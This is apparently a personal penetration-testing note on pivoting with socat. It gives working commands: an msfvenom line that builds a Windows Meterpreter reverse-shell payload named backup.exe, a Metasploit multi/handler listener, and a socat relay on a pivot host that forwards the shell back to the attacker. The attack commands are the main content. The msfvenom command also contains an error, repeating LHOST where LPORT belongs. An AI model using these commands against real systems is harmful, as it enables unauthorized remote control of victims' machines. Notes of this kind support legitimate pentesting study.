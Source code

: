 -- -
A bidirectional relay tool. Creates a pipe socket between 2 independent network channels w/o needing to use ssh tunneling. You need to run the relay from the pivot host, so you **might** need to download socat, [[Dark Arts I/File Transfer/~Home|file transfer]] it to the pivot host and run it there. 
### Payload
Create a payload for the target box, in this example a windows box on the internal network.
```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<pivot ip> LHOST=8080 -f exe -o backup.exe
```
[[Dark Arts I/File Transfer/~Home|File transfer]] over the payload to the pivot box, then to the target box. 
### Start listeners
Start multi handler on attack box:
```bash
# may or may not need sudo
sudo msfconsole
use multi/handler
set lhost 0.0.0.0
set lport 80
set payload windows/x64/meterpreter/reverse_https
run
```
setup relay on pivot host:
```bash
socat TCP4-LISTEN:8080,fork TCP4:<attack ip>:80
```
Then run the payload on the target host and you should see your multi handler caught a meterpreter shell. 